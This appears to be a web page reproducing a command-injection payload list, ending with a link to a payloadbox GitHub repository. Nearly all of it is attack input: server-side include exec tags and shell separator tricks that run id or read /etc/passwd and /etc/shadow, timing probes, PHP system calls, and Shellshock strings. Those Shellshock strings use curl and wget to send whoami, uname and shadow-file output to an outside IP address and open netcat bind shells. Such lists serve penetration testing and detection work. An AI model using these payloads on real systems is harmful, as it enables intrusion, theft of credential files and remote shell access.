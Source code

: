 <h3>Unix</h3>
<pre>
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/shadow&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
/index.html|id|
;id;
;id
;netstat -a;
;system('cat%20/etc/passwd')
;id;
|id
|/usr/bin/id
|id|
|/usr/bin/id|
||/usr/bin/id|
|id;
||/usr/bin/id;
;id|
;|/usr/bin/id|
\n/bin/ls -al\n
\n/usr/bin/id\n
\nid\n
\n/usr/bin/id;
\nid;
\n/usr/bin/id|
\nid|
;/usr/bin/id\n
;id\n
|usr/bin/id\n
|nid\n
`id`
`/usr/bin/id`
a);id
a;id
a);id;
a;id;
a);id|
a;id|
a)|id
a|id
a)|id;
a|id
|/bin/ls -al
a);/usr/bin/id
a;/usr/bin/id
a);/usr/bin/id;
a;/usr/bin/id;
a);/usr/bin/id|
a;/usr/bin/id|
a)|/usr/bin/id
a|/usr/bin/id
a)|/usr/bin/id;
a|/usr/bin/id
;system('cat%20/etc/passwd')
;system('id')
;system('/usr/bin/id')
%0Acat%20/etc/passwd
%0A/usr/bin/id
%0Aid
%0A/usr/bin/id%0A
%0Aid%0A
& ping -i 30 127.0.0.1 &
& ping -n 30 127.0.0.1 &
%0a ping -i 30 127.0.0.1 %0a
`ping 127.0.0.1`
| id
& id
; id
%0a id %0a
`id`
$;/usr/bin/id
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=16?user=\`whoami\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=18?pwd=\`pwd\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=20?shadow=\`grep root /etc/shadow\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=22?uname=\`uname -a\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=24?shell=\`nc -lvvp 1234 -e /bin/bash\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=26?shell=\`nc -lvvp 1236 -e /bin/bash &\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=5"
() { :;}; /bin/bash -c "sleep 1 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=1&?vuln=6"
() { :;}; /bin/bash -c "sleep 1 && echo vulnerable 1"
() { :;}; /bin/bash -c "sleep 3 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=3&?vuln=7"
() { :;}; /bin/bash -c "sleep 3 && echo vulnerable 3"
() { :;}; /bin/bash -c "sleep 6 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=6&?vuln=8"
() { :;}; /bin/bash -c "sleep 6 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=9&?vuln=9"
() { :;}; /bin/bash -c "sleep 6 && echo vulnerable 6"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=17?user=\`whoami\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=19?pwd=\`pwd\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=21?shadow=\`grep root /etc/shadow\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=23?uname=\`uname -a\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=25?shell=\`nc -lvvp 1235 -e /bin/bash\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=27?shell=\`nc -lvvp 1237 -e /bin/bash &\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=4"
cat /etc/hosts
$(`cat /etc/passwd`)
cat /etc/passwd
%0Acat%20/etc/passwd
&#123;&#123; get_user_file(&quot;/etc/passwd&quot;) &#125;&#125;
&lt; !--#exec cmd="/bin/cat /etc/passwd"--&gt;
&lt; !--#exec cmd="/bin/cat /etc/shadow"--&gt;
&lt; !--#exec cmd="/usr/bin/id;"--&gt;
system('cat /etc/passwd');
&lt;?php system(&quot;cat /etc/passwd&quot;);?&gt;
</pre>
<h3>Windows Commands</h3> 
<a href="https://github.com/payloadbox/command-injection-payload-list" target="_blank">https://github.com/payloadbox/command-injection-payload-list</a>